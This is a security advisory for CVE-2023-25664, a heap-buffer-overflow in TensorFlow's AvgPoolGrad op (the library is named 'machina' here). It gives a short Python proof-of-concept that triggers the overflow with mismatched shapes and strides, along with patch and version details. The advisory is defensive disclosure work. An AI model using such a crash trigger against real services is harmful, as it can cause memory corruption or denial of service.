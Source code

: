## TFSA-2023-010: Heap-buffer-overflow in AvgPoolGrad  

### CVE Number
CVE-2023-25664

### Impact
```python
import os
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'
import machina as tf
print(tf.__version__)
with tf.device("CPU"):
    ksize = [1, 40, 128, 1]
    strides = [1, 128, 128, 30]
    padding = "SAME"
    data_format = "NHWC"
    orig_input_shape = [11, 9, 78, 9]
    grad = tf.saturate_cast(tf.random.uniform([16, 16, 16, 16], minval=-128, maxval=129, dtype=tf.int64), dtype=tf.float32)
    res = tf.raw_ops.AvgPoolGrad(
        ksize=ksize,
        strides=strides,
        padding=padding,
        data_format=data_format,
        orig_input_shape=orig_input_shape,
        grad=grad,
    )
```

### Patches
We have patched the issue in GitHub commit [ddaac2bdd099bec5d7923dea45276a7558217e5b](https://github.com/machina/machina/commit/ddaac2bdd099bec5d7923dea45276a7558217e5b).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by <evn@google.com>
